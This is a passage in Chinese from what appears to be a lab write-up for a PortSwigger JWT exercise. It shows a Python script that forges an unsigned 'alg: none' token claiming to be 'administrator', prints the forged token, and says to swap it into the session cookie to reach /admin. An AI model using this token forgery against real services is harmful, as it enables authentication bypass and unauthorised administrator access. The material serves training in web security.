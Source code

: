 将 `sub` 改为 `administrator`，将 `alg` 改为 `none`

python 生成空加密 jwt

```python
# -*- coding:utf-8 -*-
import jwt
import base64
def b64urlencode(data):
    return base64.b64encode(data).replace(b'+', b'-').replace(b'/', b'_').replace(b'=', b'')
print(b64urlencode(b'{ "kid": "230c588a-d50d-4be0-ad5b-e8ac9e441878","alg": "none"}')+b'.'+b64urlencode(b'{  "iss": "portswigger","sub": "administrator","exp": 1691414166}')+b'.')
```

```
eyAia2lkIjogIjIzMGM1ODhhLWQ1MGQtNGJlMC1hZDViLWU4YWM5ZTQ0MTg3OCIsImFsZyI6ICJub25lIn0.eyAgImlzcyI6ICJwb3J0c3dpZ2dlciIsInN1YiI6ICJhZG1pbmlzdHJhdG9yIiwiZXhwIjogMTY5MTQxNDE2Nn0.
```

<img src=".\图片\Snipaste_2023-08-07_20-44-25.png" alt="Snipaste_2023-08-07_20-44-25" style="zoom: 67%;" />

然后替换 Cookie 访问  `/admin`

<img src=".\图片\Snipaste_2023-08-07_20-45-04.png" alt="Snipaste_2023-08-07_20-45-04" style="zoom:80%;" />
